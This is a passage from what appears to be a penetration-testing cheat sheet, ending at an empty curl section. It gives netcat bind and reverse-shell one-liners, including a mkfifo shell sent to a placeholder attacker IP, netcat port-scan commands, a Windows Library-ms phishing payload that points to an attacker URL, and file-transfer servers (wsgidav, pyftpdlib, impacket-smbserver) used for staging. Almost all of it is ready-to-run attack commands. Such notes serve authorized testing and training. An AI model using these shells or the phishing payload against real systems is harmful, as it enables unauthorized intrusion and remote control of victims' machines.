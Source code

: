 ```bash
nc -lp [port number] -e /bin/bash
#Reverse
nc [attacker IP] [port number] -e /bin/bash
#Sometimes, freeBSD version does not support -e flag, but still possible to achieve reverse shell connection
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [attacker IP] [port number] >/tmp/f
```
-  <mark>CONNECT Port Scan</mark>
```bash
# tcp
# -nvv tells netcat to NOT perform DNS lookup on the remote machine name and be very verbose
# -z specify zero-I/O mode, which is used for scanning and sends no data.
# -w specify the connection timeout in seconds
nc -nvv -z -w [Timeout] [IP Address] [Port Number/Range]
# udp
# -u specify a UDP scan
nc -nvv -u -z -w [Timeout] [IP Address] [Port Number/Range]
```
### wsgidav
-  <mark>Basic Use</mark> #windows 
```bash
# can be a neat way to perform bidirectional file transfer
wsgidav --host=[LOCAL_IP] --port=[Port] --auth=anonymous --root [Web_Root_Path]

# mount and access as share
net use H: \\[IP]:[Port]\DavWWWRoot\
```
- `config.Library-ms` phishing payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://[IP]</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
### pyftpdlib
-  <mark>Basic Use</mark>
```bash
python3 -m pyftpdlib -p 21
```
### impacket-smbserver
-  <mark>Basic Use</mark>
```bash
impacket-smbserver -smb2support -user test -password test test `pwd'
```
### curl
-  <mark>Basic Use</mark>
```bash
```